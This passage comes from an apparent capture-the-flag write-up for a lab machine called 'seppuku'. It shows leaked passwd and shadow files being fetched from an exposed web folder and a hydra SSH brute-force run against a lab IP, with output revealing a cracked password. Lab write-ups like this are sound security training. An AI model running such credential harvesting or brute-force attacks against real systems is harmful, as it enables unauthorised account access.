 There is also a /secret folder which contains passwd and shadow files as well as a password list. I will download all these files.

<img src="/assets/resources/seppuku/secret.png">

First I looked at the passwd.bak folder for any users sadly it was a rabbit-hole.

```
┌──(hhhharshil㉿kali)-[~/Desktop/seppuku]
└─$ cat passwd.bak | grep sh
root:x:0:0:root:/root:/bin/bash
thpot:x:122:65534:Honeypot user,,,:/usr/share/thpot:/dev/null
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
rabbit-hole:x:1001:1001:,,,:/home/rabbit-hole:/bin/bash

```

We did however get a hostname/username of seppuku from: http://192.168.116.90:7601/secret/hostname 

We have a password.list that we can use to bruteforce the ssh service.

```
┌──(hhhharshil㉿kali)-[~/Desktop/seppuku]
└─$ hydra -l seppuku -P password.lst 192.168.116.90  ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-29 15:20:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 93 login tries (l:1/p:93), ~6 tries per task
[DATA] attacking ssh://192.168.116.90:22/
[22][ssh] host: 192.168.116.90   login: seppuku   password: eeyoree
1 of 1 target successfully completed, 1 valid password found

```
We found a valid password of eeyoree for the user seppuku
